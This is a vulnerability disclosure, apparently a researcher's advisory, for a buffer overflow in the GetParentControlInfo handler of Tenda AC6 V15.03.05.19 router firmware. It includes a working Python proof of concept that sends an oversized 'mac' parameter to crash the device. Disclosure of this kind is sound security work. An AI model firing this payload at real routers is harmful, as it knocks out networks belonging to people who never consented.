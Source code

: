 ## Tenda AC6 V15.03.05.19 firmware has a buffer overflow vulnerability in the GetParentControlInfo function

- Firmware download website:
  [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102681)

Tenda AC6 V15.03.05.19 firmware has a buffer overflow vulnerability in the `GetParentControlInfo` function. The `strcpy((char *)s + 2, src)` function copies the contents of the `src` string to `(char *)s + 2` without performing a boundary check. Therefore, if the length of `src` exceeds `0x254` bytes, it will cause a buffer overflow and overwrite the memory area after the `s` array, which may cause the program to crash, thus triggering this security vulnerability.

![image-20250326010723298](md/image-20250326010723298.png)

![image-20250326010602223](md/image-20250326010602223.png)

### POC

```py
import requests

def generate_overflow_data():
    # Target buffer size is 0x255 bytes
    padding = b"X" * 0x300
    
    
    # Combine padding and target value
    exploit_data = padding 
    
    return exploit_data

def execute_overflow(url, data):
    # Prepare malicious request parameters
    attack_params = {'mac': data}
    
    # Send the malicious request twice (as in original)
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)
    
    # Display server response
    print("HTTP Status:", server_response.status_code)
    print("Response Content:", server_response.text)

if __name__ == "__main__":
    # Target endpoint
    target_url = "http://192.168.102.145/goform/GetParentControlInfo"
    
    # Generate overflow payload
    malicious_payload = generate_overflow_data()
    
    # Execute the attack
    execute_overflow(target_url, malicious_payload)
```

![image-20250326010944044](md/image-20250326010944044.png)
